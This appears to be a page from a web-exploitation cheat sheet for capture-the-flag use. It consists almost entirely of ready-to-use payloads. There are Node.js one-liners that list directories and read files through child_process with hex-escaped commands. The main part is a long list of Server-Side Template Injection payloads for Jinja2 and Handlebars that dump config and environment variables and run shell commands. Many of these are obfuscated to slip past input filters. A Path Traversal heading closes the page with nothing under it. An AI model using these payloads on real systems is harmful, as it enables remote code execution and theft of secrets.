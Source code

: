 ```javascript
require(`fs`).readdirSync(`./`)
```

```javascript
require(`child_process`).execSync(`\x63at\x20<FILE>`).toString()
```

```javascript
// 아래 코드는 파일의 이름이 'T'로 시작하는 파일을 모두 읽는 코드이다. 만약 읽으려는 파일의 이름이 'F'로 시작한다면 'F\x2a'를 주면된다.
require(`child_process`).execSync(`\x63at\x20T\x2a`).toString()
```

---
## <span style="color:#21C587"></span> Server Side Template Injection<br>

```python
{{7*7}}
{{config}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
```python
{{request|attr(request.args.param)}}&param=__class__
{{request[request.args.param]}}&param=__class__
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(287)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```
```javascript
Handlebars Template

{{JSON.stringify(process.env)}}
{{JSON.stringify(process.mainModule.constructor._load("child_process").exec("ls"))}}
```

---
## <span style="color:#21C587"></span> Path Traversal<br>
